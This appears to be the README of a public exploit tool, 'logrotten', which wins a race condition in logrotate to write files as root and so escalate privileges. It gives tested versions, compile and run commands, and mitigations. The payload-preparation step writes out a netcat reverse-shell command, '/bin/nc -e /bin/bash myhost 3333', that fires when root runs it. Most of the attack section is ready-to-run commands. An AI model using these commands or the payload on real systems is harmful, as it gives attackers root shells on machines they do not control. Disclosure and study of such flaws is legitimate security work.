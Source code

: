 # Winning a race condition in logrotate to elevate privileges

## Brief description
  - logrotate is prone to a race condition after renaming the logfile.
  - If logrotate is executed as root, with option that creates a 
    file ( like create, copy, compress, etc.) and the user is in control 
    of the logfile path, it is possible to abuse a race-condition to write 
    files in ANY directories.
  - An attacker could elevate his privileges by writing reverse-shells into 
    directories like "/etc/bash_completition.d/".
 
## Precondition for privilege escalation
  - Logrotate has to be executed as root
  - The logpath needs to be in control of the attacker
  - Any option that creates files is set in the logrotate configuration

## Tested version
  - Debian GNU/Linux 9.5 (stretch)
  - Amazon Linux 2 AMI (HVM)
  - Ubuntu 18.04.1
  - logrotate 3.8.6
  - logrotate 3.11.0
  - logrotate 3.15.0

## Compile
  - gcc -o logrotten logrotten.c

## Prepare payload
```
echo "if [ `id -u` -eq 0 ]; then (/bin/nc -e /bin/bash myhost 3333 &); fi" > payloadfile
```

## Run exploit 

If "create"-option is set in logrotate.cfg:
```
./logrotten -p ./payloadfile /tmp/log/pwnme.log
```

If "compress"-option is set in logrotate.cfg:
```
./logrotten -p ./payloadfile -c -s 4 /tmp/log/pwnme.log
```


## Known Problems
  - It's hard to win the race inside a docker container or on a lvm2-volume

## Mitigation
  - make sure that logpath is owned by root
  - use option "su" in logrotate.cfg
  - use selinux or apparmor

## Author
  - Wolfgang Hotwagner

## References
  - https://tech.feedyourhead.at/content/details-of-a-logrotate-race-condition
  - https://tech.feedyourhead.at/content/abusing-a-race-condition-in-logrotate-to-elevate-privileges
  - https://github.com/whotwagner/logrotten
  - https://www.ait.ac.at/themen/cyber-security/ait-sa-20190930-01/
  - https://tech.feedyourhead.at/content/privilege-escalation-in-groonga-httpd

